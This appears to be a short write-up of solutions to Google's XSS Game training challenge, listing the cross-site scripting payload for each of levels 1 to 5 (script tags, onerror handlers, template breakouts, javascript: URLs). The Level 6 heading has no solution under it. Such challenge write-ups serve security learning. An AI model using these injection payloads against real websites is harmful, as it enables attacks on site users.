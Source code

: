 # https://xss-game.appspot.com/

## Level 1
Insert
`<script>alert();</script>`
inside the input text box.

## Level 2
Insert
`<img src="asdgf.png" onerror="javascript:alert();" />`
inside the input text box.

## Level 3
Insert
`'onerror="alert();"`
into the URL bar after the #.

## Level 4
Insert
`1}}'); alert();('{{`
inside the input text box.

## Level 5
Click "Sign up", then insert
`javascript:alert();`
in the URL bar after
`next=`
in place of
`confirm`,
then click "Next".

## Level 6

